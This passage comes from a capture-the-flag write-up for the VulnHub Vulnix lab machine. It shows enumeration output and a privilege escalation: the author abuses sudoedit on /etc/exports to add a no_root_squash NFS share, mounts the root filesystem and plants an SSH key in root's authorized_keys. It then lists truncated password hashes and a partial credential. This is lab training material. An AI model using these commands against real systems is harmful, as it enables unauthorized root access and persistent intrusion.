  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
vulnix@vulnix> id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
vulnix@vulnix>  
vulnix@vulnix> uname
Linux vulnix 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 i686 i386 GNU/Linux
vulnix@vulnix>  
vulnix@vulnix> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:87:38:08
      inet addr:192.168.92.177  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fe87:3808/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:98658 errors:10 dropped:22 overruns:0 frame:0
      TX packets:96465 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:10590403 (10.5 MB)  TX bytes:7005490 (7.0 MB)
      Interrupt:18 Base address:0x2000
vulnix@vulnix>  
vulnix@vulnix> users
root
user
vulnix
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that user `vulnix` is allowed to `sudoedit /etc/exports` on this target:  
``` {.python .numberLines}
sudo -l
cat /etc/exports

```

  

2\. This means we can create a new share and mount it with `no_root_squash` option:  
``` {.python .numberLines}
sudoedit /etc/exports
cat /etc/exports

```

  

3\. We have to reboot the target for the `/etc/exports` changes to take affect:  
``` {.python .numberLines}
showmount -e 192.168.92.177

```

  

4\. We can now repeat the exploitation steps but this time for user `root` and enable remote SSH access:  
``` {.python .numberLines}
mount 192.168.92.177:/ ./mnt -o vers=3
cd ./mnt
cd root/
mkdir .ssh/
cp ~/.ssh/id_rsa.pub ./.ssh/authorized_keys
ssh root@192.168.92.177

```

  

  

  

5\. We can now access the flag to complete the challenge:  
``` {.python .numberLines}
cat /root/trophy.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$GpmQGQUN$8kLewzMF4ItmxezcryWqSPrXNRTH5TOQFKKkHjK2NSmrTg95xiYi.l8L.RYUL.8pAsj8s4EGvDy4dvENQ........................
user:$6$gLVDPSY5$CGHDuEBpkC90vX2xFD9NeJC0O9XfhVj9oFVvL8XbTRpBnt/7WJFpADj0zboPTKTqPbOHafZGUd/exj4OZ........................
vulnix:$6$tMOyhDF2$gExhASDVWJqHYn00.A8XLJb.DvE7bdD6NffAno3iY5zEkJwZ4yDTGMrhdVbkMXV1dlBT00DoGFR7oXbtD........................
```
### Credentials
``` {.python .numberLines}
ssh: user/letm...
```
### Flags
``` {.python .numberLines}
cc614640424f5bd60ce5d5264.......
```

## References
[+] <https://www.vulnhub.com/entry/hacklab-vulnix,48/>  
[+] <https://guif.re/linuxeop>  
[+] <https://blog.christophetd.fr/write-up-vulnix/>  
[+] <https://rastating.github.io/vulnix-ctf-walkthrough/>  
[+] <https://www.abatchy.com/2016/10/walkthrough-vulnix-vulnhub-vm>  
